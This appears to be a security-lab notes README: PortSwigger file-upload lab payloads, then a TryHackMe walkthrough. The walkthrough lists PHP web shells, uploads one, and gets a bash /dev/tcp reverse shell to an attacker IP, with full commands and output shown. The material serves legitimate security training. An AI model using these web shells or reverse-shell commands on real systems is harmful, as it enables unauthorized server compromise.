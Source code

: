 # portswiger
1. Lab: Remote code execution via web shell upload
 `<?php echo file_get_contents('/home/carlos/secret'); ?>`

2. Lab: Web shell upload via Content-Type restriction bypass
Content-Type: image/jpeg

3. Lab: Web shell upload via path traversal
`filename="%2e%2e%2fps.php"` `filename="../ps.php" `

4. 

File Upload Vulnerabilities

Introduction
In today's digital age, file upload functionality is a common feature in web applications. Whether it's for uploading profile pictures, documents, or other media, this feature is essential for user interaction. However, if not implemented securely, file upload functionality can become a significant vulnerability, exposing applications to serious risks such as remote code execution, data breaches, and server compromise.
In this post, we'll dive into what file upload vulnerabilities are, how they can be exploited, and best practices to mitigate these risks.
What is a File Upload Vulnerability?
A file upload vulnerability occurs when a web application allows users to upload files without proper validation, filtering, or security controls. Attackers can exploit this weakness to upload malicious files, such as scripts or executables, which can then be executed on the server or used to compromise the application.
For example, an attacker might upload a PHP shell script disguised as an image file. If the server executes this script, the attacker could gain unauthorized access to the server, manipulate data, or even take control of the entire system.
TryHackMe: Shell Upload using PHP
In this walkthrough, we'll exploit a file upload vulnerability by uploading a PHP web shell and gaining a reverse shell on the target machine. Here's how we did it step by step.
1. Crafting the PHP Web Shell
PHP allows us to execute system commands directly from a web page. Below are some examples of PHP code that can be used to execute commands:
# Execute one command
<?php system("whoami"); ?>

# Take input from the URL parameter (e.g., shell.php?cmd=whoami)
<?php system($_GET['cmd']); ?>

# Using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec, echo the output
<?php echo shell_exec("whoami"); ?>

# Exec() only outputs the last line, so it's less useful
<?php echo exec("whoami"); ?>

# Exec() with array output
<?php exec("ls -la", $array); print_r($array); ?>

# preg_replace() trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks (shorter version)
<?php echo `whoami`; ?>
For this exploit, we chose the following PHP code because it allows us to execute commands dynamically via URL parameters:
<?php system($_GET['cmd']); ?>
We saved this code into a file named web_shell.php:
echo "<?php system(\$_GET['cmd']); ?>" > web_shell.php
2. Uploading the PHP Shell
From the source code of the target application, we discovered that uploaded files are stored in the /images directory. We uploaded our web_shell.php file to the server.
3. Accessing the Web Shell
Once the file was uploaded, we accessed it via the following URL:
http://overwrite.uploadvulns.thm/images/web_shell.php?cmd=id
This executed the id command on the server, and we received the following output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
This confirmed that the PHP shell was working and that we had command execution capabilities.
4. Gaining a Reverse Shell
To gain a reverse shell, we set up a Netcat listener on our machine:
nc -lvnp 4444
We then executed a reverse shell command via the PHP shell. The command we used was:
bash -c 'bash -i >& /dev/tcp/10.21.128.251/4444 0>&1'
To execute this, we sent the following HTTP request:
GET /images/web_shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.21.128.251/4444+0>%261' HTTP/1.1
5. Receiving the Shell
On our Netcat listener, we received the connection:
iftx@iftx-Modern-15-A5M:~/Desktop/Hacking/File upload$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.76.221 36928
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@30d3f61636e9:/var/www/html/images$ ls
ls
mountains.jpg
web_shell.php
www-data@30d3f61636e9:/var/www/html/images$ whoami
whoami
www-data
We successfully gained a reverse shell as the www-data user.   


